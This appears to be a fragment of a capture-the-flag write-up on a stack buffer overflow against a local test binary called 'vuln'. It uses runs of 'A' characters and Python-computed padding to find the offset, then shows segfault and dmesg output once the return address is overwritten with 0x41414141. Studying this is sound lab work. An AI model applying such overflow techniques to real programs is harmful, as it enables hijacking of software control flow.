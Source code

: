 
```
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

```

Open a new terminal and write:

```python

❯ python3
Python 3.10.8 (main, Nov  1 2022, 14:18:21) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> "A" * 32
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

>>> "A" * (32+4+4)
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

```

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
zsh: segmentation fault (core dumped)  ./vuln
```

The way that C at low level denotes the end of a string, is adding a NULL BYTE which can be represented as:
```
0x00
\\x00
\\0
```

```
dmesg
vuln[166458]: segfault at 41414141 ip 0000000041414141 sp 00000000ffe924f0 error 14 in libc.so.6[f7c00000+1e000]
```

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x8049300
zsh: segmentation fault (core dumped)  ./vuln
```

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: segmentation fault (core dumped)  ./vuln
```
